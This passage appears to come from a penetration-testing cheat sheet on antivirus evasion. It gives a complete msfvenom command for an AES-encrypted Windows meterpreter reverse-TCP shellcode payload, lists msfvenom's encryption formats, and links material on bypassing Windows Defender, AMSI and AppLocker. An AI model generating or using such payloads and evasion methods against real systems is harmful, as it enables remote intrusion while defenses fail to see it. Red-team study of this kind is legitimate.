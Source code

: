 #### AES Encrypted MSFVenom Payload
```
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.112 LPORT=9999 -f csharp --encrypt aes256 --encrypt-key 12345678901234567890123456789012 --encrypt-iv 1234567890123456
```

(Encryption Key must be 32 bytes)
(Encryption IV must be 16 bytes)

#### Other MSFVenom Encryptor Options

```
$ msfvenom --list encrypt

Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor

```

#### .NET/C# AES Payload Encryption
https://sevrosecurity.com/2019/05/25/bypass-windows-defender-with-a-simple-shell-loader/

https://github.com/cribdragg3r/Simple-Loader

## Advanced Antivirus Evasion

### Antimalware Scanning Interface (AMSI)
https://rastamouse.me/blog/asb-bypass-pt2/

https://rastamouse.me/blog/asb-bypass-pt3/

https://rastamouse.me/blog/asb-bypass-pt4/

## Application Whitelisting

### Theory
https://searchsecurity.techtarget.com/definition/application-whitelisting#:~:text=Application%20whitelisting%20is%20the%20practice,networks%20from%20potentially%20harmful%20applications.

### Bypasses
https://github.com/api0cradle/UltimateAppLockerByPassList

https://github.com/0xVIC/myAPPLockerBypassSummary

## Bypassing Network Filters
